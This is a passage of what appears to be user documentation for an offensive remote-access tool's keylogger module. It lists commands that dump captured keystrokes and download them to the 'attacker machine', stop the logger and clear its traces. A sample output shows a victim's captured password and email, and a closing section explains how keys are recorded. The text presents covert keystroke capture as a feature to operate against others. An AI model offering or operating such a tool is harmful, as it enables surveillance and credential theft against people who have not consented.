 - Running status
- Log file path
- Buffer size
- File size

##### View and Download Captured Keystrokes

```
keylog_dump
```

**What happens:**

1. Saves any buffered keystrokes to the log file
2. Automatically downloads the log file to your attacker machine
3. Saves as `keylog_dump_YYYYMMDD_HHMMSS.txt` with timestamp
4. Displays the content in the terminal

**Output example:**

```
[*] Downloading keylog file...
[+] Keylog file downloaded: logs/keylog/keylog_dump_20251004_143022.txt

=== Keylog Content ===
[2025-10-04 14:25:12] Hello World
[2025-10-04 14:26:45] password123
[2025-10-04 14:27:10] username@email.com
=== End of Keylog ===
```

**Note:** The downloaded file is saved in the `logs/keylog/` directory on the attacker machine

##### Stop Keylogger

```
keylog_stop
```

Stops the keylogger and saves any remaining logs

##### Clear Logs

```
keylog_clear
```

Deletes the log file and clears the buffer

##### How It Works

###### Key Capture Logic

1. **Regular Keys**: Letters, numbers, symbols are logged as-is
2. **Space**: Logged as a space character
3. **Enter**: Creates a new line and triggers auto-save
4. **Tab**: Logged as a tab character
5. **Backspace**: Removes the last character from buffer
6. **Other Special Keys**: Logged in brackets, e.g., `[SHIFT]`, `[CTRL]`
